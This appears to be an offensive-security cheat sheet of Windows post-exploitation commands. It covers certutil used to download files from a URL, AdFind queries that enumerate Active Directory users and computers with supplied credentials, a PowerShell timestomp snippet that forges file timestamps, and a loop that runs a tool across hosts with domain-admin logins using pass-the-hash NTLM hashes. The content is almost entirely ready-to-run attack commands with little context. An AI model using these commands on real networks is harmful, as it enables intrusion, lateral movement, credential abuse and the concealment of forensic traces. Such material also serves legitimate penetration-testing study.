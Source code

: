 ## Certutil

https://gist.github.com/subTee/7937a8ef07409715f15b84781e180c46
	
File download 
```
	certutil -urlcache -split -f http://example.com/file 
```

## Active Directory Enumeration

### Adfind

www.joeware.net/freetools/tools/adfind/
```
	AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" > domain_computers.txt

	AdFind.exe -u account@domain.com -up password -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=computer" distinguishedName dNSHostName description whenchanged operatingSystem operatingSystemVersion > domain_computers_light.txt

	AdFind.exe -u account@domain.com -up pass -h 10.4.128.40:389 -b dc=domain,dc=com -f "objectcategory=user" samaccountname description pwdlastset orclcommonattribute > domain_users_light.txt
```

## Powershell

List help for cmdlet: `Get-Help [cmdlet] -full`

List available properties and methods: `Get-Member`

For-each loop: `ForEach-Object { $_ }`

Search for string (like grep): `Select-String -path [file] -pattern [string]`

Timestomp
```
	$file=(gi c:\file.exe);
	$date='01/03/2009 12:12 pm';
	$file.LastWriteTime=$date;
	$file.LastAccessTime=$date;
	$file.CreationTime=$date
```

Show last system boot time
```
	Get-WmiObject win32_operatingsystem | select csname, @{LABEL='LastBootUpTime'; EXPRESSION={$_.ConverttoDateTime($_.lastbootuptime)}}
```

Wrap binary execution in a powershell loop
```
	powershell foreach ($target in (get-content c:\users\username\appdata\local\temp\hosts_da_loggedin_unique.txt)) { "[*] $Target:"; (c:\programdata\sd.exe ./administrator@$target -hashes aad3b435b51404eeaad3b435b51404ee:a4bab1c7d4bef62d4c22043ddbf1312c) }`
```
